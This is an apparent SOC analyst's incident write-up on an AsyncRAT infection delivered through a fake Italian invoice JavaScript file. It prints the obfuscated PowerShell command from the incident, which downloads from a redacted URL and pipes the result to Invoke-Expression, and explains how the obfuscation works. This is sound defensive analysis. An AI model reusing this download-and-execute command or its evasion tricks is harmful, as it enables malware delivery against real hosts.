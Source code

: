 # incident-AsyncRAT

![image alt](https://github.com/dita-cyber/incident-AsyncRAT/blob/69df1a142796b4e89f004cac8a2aaa4e5ebd004c/asrat.png)

As a SOC analyst, I recently worked on an incident involving "Execution via PowerShell" that was flagged by CrowdStrike Falcon. The alert was related to AsyncRAT, a stealthy malware variant known for its ability to establish intermittent, non-persistent communication with a C2 server using protocols like HTTP/S or DNS. It often leverages encryption and obfuscation to evade detection.

Timeline of events observed:

HOST > winlogon.exe > userinit.exe > explorer.exe > msedge.exe > wscript.exe > powershell.exe

The command line involved in the incident was:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl'); mint -useb hXXp[:]//XXXXXXXXX.XX/1.php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"

Breaking down the command, it was observed:

Alias Obfuscation with:
string formatting (-f) to concatenate cu and rl 
curl is an alias for Invoke-WebRequest

Downloading Payload: 
The -useb flag is short for -UseBasicParsing, which simplifies the web request by avoiding the Internet Explorer engine.

Code Execution: 
The pipe |  sends the downloaded script content to iex  (short for Invoke-Expression ), executing it as PowerShell code.

Further investigation revealed that a JavaScript file was downloaded:
"C:\Windows\System32\WScript.exe" "C:\Users\USERNAME\Downloads\FatturaXXXXXXXXX.js"

Upon analyzing the URL on VirusTotal, it was confirmed as malicious. The JavaScript file was also flagged as malicious after being run in Joe Sandbox, revealing a 100% malicious behavior.

Response and escalation performed:
Fortunately, the host was already contained, and all processes related to the incident were blocked. I sent an escalation report to the client, detailing the findings and IOCs.

I also performed further investigation to trace the event's origin. I investigated the wscript.exe process using the query field to search for the JavaScript file name, "FatturaXXXXXXX.js," and discovered a log entry with a previously unseen Host URL. Analyzing this URL in Joe Sandbox showed page was not reacheble anymore and checking VirusTotal for the domain returned as 2/97 malicious. 

Interestingly, the client is an Italian company, and "fattura" means "invoice" in Italian. It appears to be part of a broader campaign targeting various countries using fake invoices to infect hosts.
